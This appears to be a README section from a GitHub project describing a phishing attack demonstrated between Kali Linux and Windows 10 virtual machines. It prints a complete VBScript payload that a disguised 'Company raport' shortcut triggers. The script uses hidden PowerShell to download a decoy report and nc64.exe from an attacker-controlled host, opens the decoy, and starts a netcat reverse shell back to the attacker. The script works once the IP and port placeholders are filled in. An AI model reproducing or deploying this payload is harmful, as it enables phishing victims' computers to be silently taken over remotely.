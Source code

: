 When the Company raport shortcut is clicked, connection is set to download fake raport.txt file and netcat from the attacker. When the downloads are done, raport.txt opens while reverse shell is being cooked in the background.

See it in action: https://www.youtube.com/watch?v=ll4ojo6q-rM

Demo was made using 2 virtual machines:

    Kali Linux
    Windows 10

Structure:
Company raport .lnk -> Linked to revsh.vbs inside hidden payload folder

![efROc8J](https://github.com/therealhalonen/PhishSticks/assets/112076418/54cea3ed-6872-4f69-a483-2e6586fe12f6)
![nor5dNd](https://github.com/therealhalonen/PhishSticks/assets/112076418/8ef95081-a269-4667-8b0f-cf9cfb8eb2a5) 

revsh.vbs:

```vbs
Set objShell = CreateObject("Wscript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")

' Download fake raport
downloadRaport = "powershell -WindowStyle Hidden -Command ""(New-Object System.Net.WebClient).DownloadFile('<ATTACKER IP>/raport.txt', '%TEMP%\raport.txt')"""
objShell.Run downloadRaport, 0, True
WScript.Sleep 1000  ' Wait for 1 second

' Open raport.txt
openRaport = "cmd /c start """" %TEMP%\raport.txt"
objShell.Run openRaport, 0, True

' Download netcat from attacker ip
downloadCmd = "powershell -WindowStyle Hidden -Command ""(New-Object System.Net.WebClient).DownloadFile('http://<ATTACKER IP>/nc64.exe', '%TEMP%\nc64.exe')"""
objShell.Run downloadCmd, 0, True
WScript.Sleep 2000 ' Wait for 2 seconds initially (adjust this if needed)

' Wait until the file has been downloaded
Do While Not objFSO.FileExists(objShell.ExpandEnvironmentStrings("%TEMP%\nc64.exe"))
    WScript.Sleep 1000  ' Wait for 1 second
Loop

' Start reverse shell
execCmd = "cmd /c powershell -Command ""Start-Process \""%TEMP%\nc64.exe\"" -ArgumentList '<ATTACK IP>', '<ATTACKER PORT>', '-e', 'powershell' -WindowStyle Hidden"""
objShell.Run execCmd, 0, True

Set objFSO = Nothing
Set objShell = Nothing
```

Both Virtual Machines were assigned to the same internal network, and the IP-address of the attacker machine was placed as a static in the payload command. Attacker machine was set to host raport.txt & nc64.exe  and open up netcat listener:

![2023-11-23_10-54](https://github.com/therealhalonen/PhishSticks/assets/112076418/3e9ea4b2-4ff3-4798-90d6-3dc368e22d44)

